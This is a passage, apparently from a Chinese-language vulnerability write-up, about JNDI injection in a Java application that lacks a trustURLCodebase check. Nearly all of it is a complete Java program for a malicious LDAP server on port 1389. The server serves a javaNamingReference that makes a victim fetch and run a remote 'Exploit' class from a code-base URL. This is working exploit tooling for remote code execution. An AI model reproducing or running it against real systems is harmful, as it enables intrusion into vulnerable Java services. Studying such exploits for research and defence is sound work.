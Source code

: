 ![alt text](image-387.png)

其中并没有看到 trustURLCodebase 相关的代码，是没有做限制的，所以绝对存在 JNDI 注入，写一个利用代码如下：

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class JNDILDAPServer {

    private static final String LDAP_BASE = "dc=xxx,dc=com";

    public static void main(String[] args) {
        int port = 1389;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.setSchema(null);  // 关闭 schema 验证
            config.setEnforceAttributeSyntaxCompliance(false);
            config.setEnforceSingleStructuralObjectClass(false);

            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            ds.startListening();

            ds.add("dn: dc=xxx,dc=com", "objectClass: top", "objectClass: domain", "dc: xxx");
            ds.add("dn: ou=xxxx,dc=xxx,dc=com", "objectClass: organizationalUnit", "ou: xxxx");

            // 注册一个 Reference 对象条目（按照 JNDI 加载规则）
            ds.add("dn: uid=xxxxx,ou=xxxx,dc=xxx,dc=com",
                    "objectClass: javaNamingReference",
                    "javaClassName: Exploit",
                    "javaFactory: Exploit",
                    "javaCodeBase: http://127.0.0.1:8000/");
            System.out.println("LDAP Server listening on 0.0.0.0:" + port);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

